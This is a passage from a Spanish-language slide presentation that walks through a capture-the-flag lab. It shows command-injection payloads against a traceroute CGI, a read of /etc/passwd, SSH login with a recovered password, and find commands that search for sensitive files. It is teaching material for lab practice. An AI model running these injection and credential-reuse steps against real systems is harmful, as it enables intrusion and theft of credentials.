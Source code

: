 
### Command Injection en Traceroute

```bash
# Prueba básica
http://192.168.x.x/cgi-bin/tracertool.cgi?ip=127.0.0.1

# Inyección de comandos
http://192.168.x.x/cgi-bin/tracertool.cgi?ip=127.0.0.1;id

# Lectura de archivos
http://192.168.x.x/cgi-bin/tracertool.cgi?ip=127.0.0.1;more+/etc/passwd
```

{{% note %}}
Técnicas de inyección:
- Usar diferentes delimitadores (;, &&, |)
- Probar comandos básicos
- Evitar caracteres filtrados
- Buscar archivos sensibles
{{% /note %}}

{{% /section %}}

---

{{% section %}}

### Fase 3: Análisis de Credenciales

#### Contraseñas Encontradas
1. En código fuente: `winter`
2. En /etc/passwd: usuario `Summer`
3. Conexión entre usuarios:
```bash
# Login SSH
ssh Summer@192.168.x.x -p 22222
Password: winter
```

{{% note %}}
Metodología:
- Correlacionar información
- Probar credenciales en todos los servicios
- Mantener registro de intentos
- Documentar accesos exitosos
{{% /note %}}

---

### Búsqueda de Archivos Sensibles

```bash
# Como usuario Summer
find / -type f -name "*.txt" 2>/dev/null
find / -type f -name "*.zip" 2>/dev/null
find / -name "*.jpg" 2>/dev/null

# Archivos importantes encontrados:
# - Safe_Password.jpg
# - journal.txt.zip
# - FLAG.txt en varios lugares
```
